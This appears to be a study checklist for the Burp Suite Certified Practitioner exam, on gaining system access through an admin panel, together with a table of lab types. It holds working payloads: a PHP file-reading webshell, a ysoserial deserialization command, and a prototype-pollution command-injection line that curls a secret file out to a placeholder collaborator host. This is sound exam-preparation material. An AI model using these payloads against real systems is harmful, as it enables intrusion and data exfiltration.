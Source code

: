 

---

# System Access

**Overall Notes to Remember**
- Again, check for anything you didn't have access (admin panel the obvious one)

## Admin Panel
- If file uploads, check for webshell upload, XXE via file upload
    - remember file upload doesnt need fully interactive webshell, this will work just fine: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Check if admin gets a new cookie like in the practice exam: `admin-prefs`. Check if its serialized. 
    - basic ysoserial syntax: `java -jar /home/thegetch/pentest/ysoserial.jar CommonsCollections4 'cat /home/carlos/secret' | base64` (base64 optional but likely the cookie is b64ed or encoded in some way for http requests to work)
- Insertion point scan any and all new parameters
    - XXE, SSTI, Command Injection, Directory Traversal mainly, potentially SQLi. Perhaps SSRF to that internal host they say is listening (localhost on port 6566)
        - SSTI fuzz string: `${{<%[%'"}}%\`
- See if any JSON data is being sent
    - Check for prototype pollution with `"__proto__": { "json spaces":10 }` or `"constructor": { "prototype": { "json spaces":10 } }`
        -Command injection: `"__proto__": { "execArgv":[ "--eval=require('child_process').execSync('curl -X POST <your-collaborator> -d @/home/carlos/secret')" ] }`

---

# User Intervention Table

[!NOTE]
The labs that require an active user vs the ones that don't.

## Initial Access

| Requires user intervention | Does not require user intervention |
| :--- | :--- |
| [Cross-Site Scripting (XSS)](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#cross-site-scripting-xss) | [SQL Injection](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#sql-injection) |
| [DOM-based Vulnerabilities](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#dom-based-vulnerabilities) | [Authentication](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#authentication) |
| [WebSockets](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#websockets) | [Business logic vulnerabilities](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#business-logic-vulnerabilities)|
| [Web Cache Poisoning](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#web-cache-poisoning) | [Insecure deserialization](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#insecure-deserialization) |
| [HTTP Host header attacks](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#http-host-header-attacks) | [HTTP Host header attacks](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#http-host-header-attacks) |
| [HTTP Request Smuggling](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#http-request-smuggling) | [GraphQL API vulnerabilities](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#graphql-api-vulnerabilities) |
| [Prototype pollution](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#prototype-pollution) | [NoSQL injection](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#nosql-injection) |
| | [API testing](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/Lab%20Solutions%20by%20Type.md#api-testing) |

